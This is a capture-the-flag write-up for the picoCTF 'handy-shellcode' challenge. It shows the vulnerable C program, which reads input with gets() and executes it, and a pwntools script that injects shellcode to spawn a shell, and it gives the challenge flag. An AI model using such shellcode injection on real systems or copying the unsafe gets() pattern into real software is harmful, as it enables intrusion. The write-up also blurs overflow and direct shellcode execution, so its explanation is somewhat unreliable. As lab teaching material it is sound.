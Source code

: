 # handy-shellcode

Points: 50

# Question

This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. [Source](vuln.c).

# Hint 

You might be able to find some good shellcode online.

# Solution

By examining the source file we can see that the program use "gets" function which if vulnerable for buffer overflow 
```C
void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

First, let's run the program and try to make it crash.

![](overflow1.png)

using pwn tools its easy to exploit this program [script](script.py) and spawn shell then extract the flag

```python
from pwn import *

sh = process('vuln')
sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()
```


![](overflow2.png)


# Flag
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

